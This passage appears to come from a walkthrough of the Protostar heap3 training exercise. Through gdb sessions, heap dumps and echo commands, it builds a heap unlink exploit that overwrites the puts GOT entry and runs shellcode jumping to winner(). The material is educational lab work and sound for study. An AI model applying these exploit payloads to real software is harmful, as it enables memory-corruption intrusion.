0x08048892 <main+9>:	mov    DWORD PTR [esp],0x20
0x08048899 <main+16>:	call   0x8048ff2 <malloc>
0x0804889e <main+21>:	mov    DWORD PTR [esp+0x14],eax
0x080488a2 <main+25>:	mov    DWORD PTR [esp],0x20
0x080488a9 <main+32>:	call   0x8048ff2 <malloc>
0x080488ae <main+37>:	mov    DWORD PTR [esp+0x18],eax
0x080488b2 <main+41>:	mov    DWORD PTR [esp],0x20
0x080488b9 <main+48>:	call   0x8048ff2 <malloc>
0x080488be <main+53>:	mov    DWORD PTR [esp+0x1c],eax
0x080488c2 <main+57>:	mov    eax,DWORD PTR [ebp+0xc]
0x080488c5 <main+60>:	add    eax,0x4
0x080488c8 <main+63>:	mov    eax,DWORD PTR [eax]
0x080488ca <main+65>:	mov    DWORD PTR [esp+0x4],eax
0x080488ce <main+69>:	mov    eax,DWORD PTR [esp+0x14]
0x080488d2 <main+73>:	mov    DWORD PTR [esp],eax
0x080488d5 <main+76>:	call   0x8048750 <strcpy@plt>
0x080488da <main+81>:	mov    eax,DWORD PTR [ebp+0xc]
0x080488dd <main+84>:	add    eax,0x8
0x080488e0 <main+87>:	mov    eax,DWORD PTR [eax]
0x080488e2 <main+89>:	mov    DWORD PTR [esp+0x4],eax
0x080488e6 <main+93>:	mov    eax,DWORD PTR [esp+0x18]
0x080488ea <main+97>:	mov    DWORD PTR [esp],eax
0x080488ed <main+100>:	call   0x8048750 <strcpy@plt>
0x080488f2 <main+105>:	mov    eax,DWORD PTR [ebp+0xc]
0x080488f5 <main+108>:	add    eax,0xc
0x080488f8 <main+111>:	mov    eax,DWORD PTR [eax]
0x080488fa <main+113>:	mov    DWORD PTR [esp+0x4],eax
0x080488fe <main+117>:	mov    eax,DWORD PTR [esp+0x1c]
0x08048902 <main+121>:	mov    DWORD PTR [esp],eax
0x08048905 <main+124>:	call   0x8048750 <strcpy@plt>
0x0804890a <main+129>:	mov    eax,DWORD PTR [esp+0x1c]
0x0804890e <main+133>:	mov    DWORD PTR [esp],eax
0x08048911 <main+136>:	call   0x8049824 <free>
0x08048916 <main+141>:	mov    eax,DWORD PTR [esp+0x18]
0x0804891a <main+145>:	mov    DWORD PTR [esp],eax
0x0804891d <main+148>:	call   0x8049824 <free>
0x08048922 <main+153>:	mov    eax,DWORD PTR [esp+0x14]
0x08048926 <main+157>:	mov    DWORD PTR [esp],eax
0x08048929 <main+160>:	call   0x8049824 <free>
0x0804892e <main+165>:	mov    DWORD PTR [esp],0x804ac27
0x08048935 <main+172>:	call   0x8048790 <puts@plt>
0x0804893a <main+177>:	leave
0x0804893b <main+178>:	ret
End of assembler dump.
(gdb) x/3i 0x8048790
0x8048790 <puts@plt>:	jmp    DWORD PTR ds:0x804b128
0x8048796 <puts@plt+6>:	push   0x68
0x804879b <puts@plt+11>:	jmp    0x80486b0
(gdb) x 0x804b128
0x804b128 <_GLOBAL_OFFSET_TABLE_+64>:	xchg   esi,eax
(gdb) x 0x804b128-12
0x804b11c <_GLOBAL_OFFSET_TABLE_+52>:	xchg   WORD PTR [eax+ecx*1],ax
(gdb) x/56wx 0x804c000
0x804c000:	0x00000000	0x00000029	0x41414141	0x41414141
0x804c010:	0x41414141	0x41414141	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c040:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c050:	0x42424242	0x00000065	0x43434343	0x43434343
0x804c060:	0x43434343	0x43434343	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb)
```

```sh
>>> 100-2-2-2-2
92
>>>
```

```sh
>>> "C"*92
'CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC'
>>>
```

```
"C"*92 + 0xfffffffc + 0xfffffffc + <GOT> + <Heap>
"C"*92 + 0xfffffffc + 0xfffffffc + 0x804b11c + 0x804c008
```

```sh
user@protostar:/tmp$ echo -ne "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC\xfc\xff\xff\xff\xfc\xff\xff\xff\x1c\xb1\x04\x08\x08\xc0\x04\x08" > C
```

```sh
(gdb) x winner
0x8048864 <winner>:	0x83e58955
(gdb)
```

```sh
(gdb) r AAAAAAAAAAAAAAAA `cat /tmp/B` `cat /tmp/C`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/heap3 AAAAAAAAAAAAAAAA `cat /tmp/B` `cat /tmp/C`

Breakpoint 1, 0x080488d5 in main (argc=4, argv=0xbffff794) at heap3/heap3.c:20
20	in heap3/heap3.c
(gdb) x/56wx 0x804c000
0x804c000:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) c
Continuing.

Breakpoint 2, 0x08048911 in main (argc=4, argv=0xbffff794) at heap3/heap3.c:24
24	in heap3/heap3.c
(gdb) x/56wx 0x804c000
0x804c000:	0x00000000	0x00000029	0x41414141	0x41414141
0x804c010:	0x41414141	0x41414141	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c040:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c050:	0x42424242	0x00000065	0x43434343	0x43434343
0x804c060:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c070:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c080:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c090:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0a0:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0b0:	0x43434343	0xfffffffc	0xfffffffc	0x0804b11c
0x804c0c0:	0x0804c008	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb)
```

[`online-x86-assembler`](https://defuse.ca/online-x86-assembler.htm)


```sh
user@protostar:/tmp$ echo -ne "\xB8\x64\x88\x04\x08\xFF\xD0" > A
```

```sh
(gdb) run `cat /tmp/A` `cat /tmp/B` `cat /tmp/C`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/heap3 `cat /tmp/A` `cat /tmp/B` `cat /tmp/C`

Breakpoint 1, 0x080488d5 in main (argc=4, argv=0xbffff7a4) at heap3/heap3.c:20
20	in heap3/heap3.c
(gdb) x/56wx 0x804c000
0x804c000:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) c
Continuing.

Breakpoint 2, 0x08048911 in main (argc=4, argv=0xbffff7a4) at heap3/heap3.c:24
24	in heap3/heap3.c
(gdb) x/56wx 0x804c000
0x804c000:	0x00000000	0x00000029	0x048864b8	0x00d0ff08
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c040:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c050:	0x42424242	0x00000065	0x43434343	0x43434343
0x804c060:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c070:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c080:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c090:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0a0:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0b0:	0x43434343	0xfffffffc	0xfffffffc	0x0804b11c
0x804c0c0:	0x0804c008	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) c
Continuing.

Breakpoint 3, 0x08048935 in main (argc=4, argv=0xbffff7a4) at heap3/heap3.c:28
28	in heap3/heap3.c
(gdb) si
0x08048790 in puts@plt ()
(gdb)
0x0804c008 in ?? ()
(gdb) x/5i 0x0804c008
0x804c008:	sub    al,al
0x804c00a:	add    al,0x8
0x804c00c:	or     bh,bh
0x804c00e:	rol    BYTE PTR [eax],1
0x804c010:	sbb    al,0xb1
(gdb)
```

```sh
user@protostar:/tmp$ echo -ne "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC\xfc\xff\xff\xff\xfc\xff\xff\xff\x1c\xb1\x04\x08\x14\xc0\x04\x08" > C
```

```sh
>>> "A"*12
'AAAAAAAAAAAA'
>>>
```

```sh
user@protostar:/tmp$ echo -ne "AAAAAAAAAAAA\xB8\x64\x88\x04\x08\xFF\xD0" > A
```

```sh
(gdb) run `cat /tmp/A` `cat /tmp/B` `cat /tmp/C`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/heap3 `cat /tmp/A` `cat /tmp/B` `cat /tmp/C`

Breakpoint 1, 0x080488d5 in main (argc=4, argv=0xbffff794) at heap3/heap3.c:20
20	in heap3/heap3.c
(gdb) x/56wx 0x804c000
0x804c000:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) c
Continuing.

Breakpoint 2, 0x08048911 in main (argc=4, argv=0xbffff794) at heap3/heap3.c:24
24	in heap3/heap3.c
(gdb) x/56wx 0x804c000
0x804c000:	0x00000000	0x00000029	0x41414141	0x41414141
0x804c010:	0x41414141	0x048864b8	0x00d0ff08	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c040:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c050:	0x42424242	0x00000065	0x43434343	0x43434343
0x804c060:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c070:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c080:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c090:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0a0:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0b0:	0x43434343	0xfffffffc	0xfffffffc	0x0804b11c
0x804c0c0:	0x0804c014	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) c
Continuing.

Breakpoint 3, 0x08048935 in main (argc=4, argv=0xbffff794) at heap3/heap3.c:28
28	in heap3/heap3.c
(gdb) si
0x08048790 in puts@plt ()
(gdb)
0x0804c014 in ?? ()
(gdb)
0x0804c019 in ?? ()
(gdb)
winner () at heap3/heap3.c:8
8	in heap3/heap3.c
(gdb)
```

```sh
user@protostar:/opt/protostar/bin$ ./heap3 `cat /tmp/A` `cat /tmp/B` `cat /tmp/C`
that wasn't too bad now, was it? @ 1528917305
Segmentation fault
user@protostar:/opt/protostar/bin$
```